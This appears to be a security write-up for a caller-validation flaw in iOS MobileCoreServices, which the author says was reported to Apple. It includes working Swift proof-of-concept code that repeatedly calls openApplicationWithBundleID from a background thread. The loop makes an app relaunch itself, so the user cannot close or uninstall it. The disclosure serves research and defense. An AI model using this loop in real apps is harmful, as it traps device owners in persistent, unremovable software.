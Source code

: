## Caller validation vulnerability in MobileCoreServices leading to a persistence exploit

Reported to apple, No CVE assigned yet!

### How I found it?

I was researching `MobileCoreServices`, specifically `LSApplicationWorkspace` and found it very interesting that you can use a couple of its methods without any entitlements. I stumbled over this because of my Nyxian project which is basically Xcode for iOS with app distribution functionalities and even auto launch after install. I was looking for a method to automatically open the apps. I've found what I was looking for...

```objc
- (BOOL)openApplicationWithBundleID:(id)arg1;
```

... tho this wasnt yet the moment I realised this potential vulnerability exists. First when I researched `LSApplicationWorkspace` more. I wanted to find a method that helps me determine if a app has been sucessfully installed on the device after sending the app using OTA methods to the device it self and insanely enough I found it...

```objc
- (id)installProgressForBundleID:(id)arg1 makeSynchronous:(unsigned char)arg2;
```

... this method allowed me to get a `NSProgress` object, when I then tried to apply a handler to it I got a error, it said that I cannot apply a handler to it because it belongs to a other process and additionally the app crashed. This made me think "If this is handled by a other process, then opening must be too"...

### Vulnerability

First I assumed that apple already accounted for this possibility given the time `MobileCoreServices` and `LSApplicationWorkspace` already exist, but to my suprise they didnt account for it. First I tried to loop call the function on my own BundleID. I expected the process handling the openage to already account for the callers presence and abort if the caller is not present anymore.

```swift
import SwiftUI
import Foundation

func pthread_dispatch(_ code: @escaping () -> Void) {
    var thread: pthread_t?
    let blockPointer = UnsafeMutableRawPointer(Unmanaged.passRetained(code as AnyObject).toOpaque())
    
    pthread_create(&thread, nil, { ptr in
        let unmanaged = Unmanaged<AnyObject>.fromOpaque(ptr)
        let block = unmanaged.takeRetainedValue() as! () -> Void
        block()
        return nil
    }, blockPointer)
}

struct ContentView: View {
  var body: some View {
    Text("You now have to force reboot now")
    .onAppear {
      // Get the workspace
      guard let workspace = LSApplicationWorkspace.default() else { return }
      
      // Make a background thread
      pthread_dispatch {
        // Make a loop
        while true {
          // This will request to open the app constantly
          workspace.openApplication(withBundleID: Bundle.main.bundleIdentifier)
        }
      }
    }
  }
}
```

After I ran the code I've discovered a few things..

- The user cannot close the app without the app being relaunched again
- The user cannot interact with their device properly(eg. If they return to home they get thrown back into the app exploiting the vulnerability)
- The user cannot uninstall the app because of the small time frame they can dismiss the app.

The most insane about this is obviously "The user cannot close the app without the app being relaunched again", why? because it violates iOS core assumptions such as if a user closes a app it stays closed, but this basically proves that we can exploit this vulnerability in a reliable way to reincarnate the app after the user closed it.

###### Restart a iOS app programatically

I thought a bit further and thought about another topic, well iOS doesnt allow you for example to programatically restart your app. I thought about why this even works. And I just tried something out and it didnt worked yet, but read further.

```swift
import SwiftUI
import Foundation

struct ContentView: View {
  var body: some View {
    Button("Restart App") {
      // Get the workspace
      guard let workspace = LSApplicationWorkspace.default() else { return }
      
      // Start a background thread that attempts to reopen the currently opened app constantly
      pthread_dispatch {
        while true {
          workspace.openApplication(withBundleID: Bundle.main.bundleIdentifier)
        }
      }
      
      // Now attempt to exit
      exit(0)
    }
    Text("Process ID: \(getpid())")
  }
}
```

Expectedly this did not worked or the sucess rate was pretty bad, but then I attempted something differently and I was stunned by this dicovery. It turns out the sucess rate of restarting your own app using this vulnerability increases the longer the loop occurs. So i changed...

```swift
exit(0)
```

To this...

```swift
pthread_dispatch {
  // wait 0.2 seconds
  Thread.sleep(forTimeInterval: 0.2)
  // now exit the app
  exit(0)
}
```

Using this I made the implementation for restarting the iOS app it self reliable.

### How does it work?

It works because of improper checks of the `lsd` (Launch Services Daemon) which is responsible for managing requests of opening applications via the `MobileCoreServices` framework, specifically when invoking `- (BOOL)openApplicationWithBundleID:(id)arg1;` your app is giving the request to `lsd` which then manages to open the app, so where is the problem... when ur doing it in a while loop and in a background thread you dont wait on the return of this method and can simply continue code execution without waiting on its return which apple didnt accounted for, although this is a common security concern. What then happens is that if we call `exit(0)` the `lsd` process is still processing the request. When your app then gets terminated by your own `exit(0)` call `lsd` fails to address that and continues with opening your own app although terminated which results in the app self relaunching.

### Why is this dangerous?

A attacker could use this vulnerability maliciously to bypass the user interaction of killing the attackers app using the app switcher and bypassing the users attempt to uninstall the app(which is a side-effect cause of the self-open which dismisses the uninstallation menu) and additionally stay opened for ever, no matter what the user does, which leads to a malicious **persistence exploit**. Additionally as the opening of the app is a side-effect it's super annoying. It's also a privacy concern as data can be exfiltrated without the users consent. And the vulnerability could be used in a chain to ensure the user cannot escape a certain hacking attempt of their phone. Additionally no special entitlements are needed to use this vulnerability which empowers every app to use this vulnerability.



